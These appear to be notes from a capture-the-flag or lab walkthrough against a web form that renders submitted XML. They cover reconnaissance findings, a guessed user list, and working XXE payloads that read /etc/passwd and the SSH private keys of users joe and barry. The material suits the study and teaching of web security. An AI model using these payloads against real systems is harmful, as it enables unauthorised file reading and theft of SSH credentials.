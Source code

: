 the form seems to send a response of rendered xml

```
xml=%3C%3Fphp+phpinfo%28+%29%3B+%3F%3E
```

```
<!-- Barry, you can now SSH in using your key!-->
```

```
<script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
```


```
http://10.10.32.158:8765/auth/dontforget.bak
```

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 
```

possible users

```
admin
barry
clad
joe
hamd
```


when we paste the message into the form, it renders the xml as a comment

![[demo xml pre.png]]

![[demo xml post.png]]


crafting a malicious palyload

https://portswigger.net/web-security/xxe


```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

and we can see /etc/passwd

![[etc passwd.png]]

system users

```
joe
barry
```

looking for ssh keys


```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/joe/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```


![[barry priv key.png]]